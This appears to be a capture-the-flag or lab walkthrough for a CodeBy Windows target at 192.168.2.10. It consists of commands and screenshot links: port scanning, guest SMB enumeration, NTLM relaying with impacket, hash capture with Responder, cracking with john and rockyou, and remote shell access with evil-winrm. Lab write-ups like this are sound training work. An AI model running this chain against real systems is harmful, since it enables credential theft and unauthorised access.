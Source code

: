 dddd

```
nmap -sT -sV 192.168.2.10 -p- -v -sC   
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51a14674-777b-4d0b-af75-8fa1dafbb111)

```
smbmap -H 192.168.2.10 -u "guest" -p "" -d codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9614c6dd-1708-4ce1-ba8c-d8f31e30c194)
```
smbclient -no-pass //192.168.2.10/Files-for-checkers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ac244dec-07a4-4de4-8c10-7660ac6cb37a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b3e7b5b1-a533-4e9e-9c8a-f0e0e53ec1a3)

```
impacket-ntlmrelayx -t 192.168.2.10  -smb2support -debug  
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a984c248-c211-4e67-8ca4-c3d99cd73c36)

https://pentestlab.blog/tag/smb-relay/

https://xakep.ru/2023/04/07/ntlm-relay-guide/#toc04.2

```
sudo responder -wd -I eth0
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cdbe0d6-b20f-477e-abd0-acd2923370f5)

```
john --wordlist=/home/kali/PAYLOADS/rockyou.txt hash_pass.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e216110c-dd36-4911-826a-9bbb3a9e54b2)
```
evil-winrm -i 192.168.2.10 -u 'LOGIN' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ced3007d-f8a7-4737-8bad-9dee47deb159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f16b6da8-76f4-4340-a34f-fa898db1179c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f74c3a4b-9d74-4460-a305-db0363889c3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d6fa22e4-c734-43e5-bb3f-a9c65a51d086)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e909d3ab-97fd-43c7-a5a7-b2c0663d73ea)
```
evil-winrm -i 192.168.2.10 -u 'LOGIN' -p 'PASS'
```


